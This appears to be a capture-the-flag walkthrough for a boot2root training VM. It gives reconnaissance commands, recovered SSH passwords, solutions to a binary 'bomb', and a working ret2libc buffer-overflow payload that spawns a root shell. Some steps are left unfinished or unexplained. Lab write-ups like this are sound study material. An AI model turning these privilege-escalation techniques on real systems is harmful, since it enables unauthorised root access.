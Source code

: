 -------------------------------------------------------------------------------

The following method describes a user/privilege escalation.

-------------------------------------------------------------------------------

##First we need to find the IP address of our VM

```ifconfig```

```vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 192.168.80.1 netmask 0xffffff00 broadcast 192.168.80.255
```
* Now we scan this IP with nmap

```nmap 192.168.80.1-255```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-22 14:14 CET
Nmap scan report for 192.168.80.1
Host is up (0.00019s latency).
Not shown: 967 closed ports, 32 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.80.128
Host is up (0.00053s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
* The machine with the most ports open is the one we are looking for...
* In this example : 192.168.80.128

* Now we need to get access to the file system of the ISO.
* Among other files, this ISO contains the following one : "filesystem.squashfs".
* This is actually the whole compressed file system.
* To decompress and extract it we can use "squashfs".

```unsquashfs -f -d /path/to/destination/ /path/to/source/filesystem.squashfs```

* Directory : /home/lmezard/
-------------------------------------------------------------------------------

* In /home/lmezard/ we find 2 files.

```cd /home/lmezard/ ; ls
fun  README
```
* The fun file is actually an archive...

`` file fun
fun: POSIX tar archive (GNU)```

* Decompressing it produces a new directory called "ft_fun".

```tar xvf fun ; ls
ft_fun  fun  README ```

* "ft_fun" directory contains a fuck tone of files...
* We notice that each one of them is written in C language and its last line is tagged with a comment like so
//file3
//file235
...

* We can then make a little PHP script to read them and recompose the original C file, compile the file and execute it.

``` $ php pack.php && gcc main.c && ./a.out
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit ```

* If we sha256 this password we obtain :

```330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4```

* We can now connect with ssh as "laurie".

* Directory : /home/laurie/
-------------------------------------------------------------------------------

* Once connected with ssh as "laurie", let's find out where we are and what we have.

```
pwd ; ls
/home/laurie
README  bomb
```
* To crack the bomb binary we will use gdb as fuck...
* For each step we will use the following command : 

``` (gdb) disas phase_N```

### Phase 1 : "Public speaking is very easy."

* The address 0x80497c0 is pushed on the stack and contains the string "Public speaking is very easy.".
* The function strings_not_equal is called right after with 2 arguments, our input line and this string.
Obvious ...

### Phase 2 : "1 2 6 24 120 720"

* The function read_six_numbers expects 6 integers from input line separated by white spaces.
* It checks whether the 1st number is a 1.
* Then the next number must be the current number multiplied by the next position on the string.

```
1 at position 2 = 2
2 at position 3 = 6
6 at position 4 = 24
...
```
### Phase 3 : "1 b 214"

* The address 0x80497de is push on the stack before a call to sscanf and contains the string "%d %c %d".
* We need to pass 3 arguments according to sscanf format string.
[[ TO BE FINISHED ]]

### Phase 4 : "9"

* The address 0x8049808 is push on the stack before a call to sscanf and contains the string "%d".
* At 0x08048d1d, %eax register must be equal to 0x37.
* Within a few tries, we find the solution ...

### Phase 5 : "opekmq"

* The input string must be 6 bytes long and is compared to "giants" (0x804980b).
* At 0x08048d7b we find this string "isrveawhobpnutfg".
* If we compare it to the alphabet we can see the following pattern.

``` 
abcdefghijklmno
pqrstuvwxyz
```
----------------
isrveawhobpnutfg

* Meaning for example that 'a' => 's', 'b' => 'r', 'p' => 'i'...
* We just have to matches the right characters that translate to : "g i a n t s".

### Phase 6 : "4 2 6 3 1 5"

* Phase bonus :
	 Phase 4 : "9 austinpowers"
	 Secret phase: "1001"

* In the end the whole concatenated password is :
"Publicspeakingisveryeasy.126241207201b2149opekmq426315"

* But according to the forum, the characters at len-2 and len-3 must be switched, so to connect with ssh as "thor" we must use :
"Publicspeakingisveryeasy.126241207201b2149opekmq426135"

Directory : /home/thor/
-------------------------------------------------------------------------------

In this directory we find two files

```
ls
README  turtule```

* The file turtule is actually a draw map for letters that gives us : SLASH
* It is said in the README to be used with 'zaz' user.
* Encrypting it in sha1-2-256 didn't work so we try in md5 and... it works !

```646da671ca01bb5d84dbb5fb2238dc8e```

* We can now connect with ssh as "zaz".

Directory : /home/zaz/
-------------------------------------------------------------------------------

In this directory we find

```
ls
exploit_me  mail
```
* If we open exploit_me into gdb we notice that we can use a buffer overflow at 140 bytes to overwrite the %eip register.

```./exploit_me $(python -c "print('A' * 140)")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```
* Since the file is root file, we can spwan a root shell with a ret2libc attack.
* We use gdb to find the address of system function, "/bin/bash" string and the idea is :
	- overwrite the %eip register with the system address from libc
	- put on the stack at %eip+8 the "/bin/sh" address

* Using python, that gives us :

$ ./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)

# TADAM WE ARE ROOT !
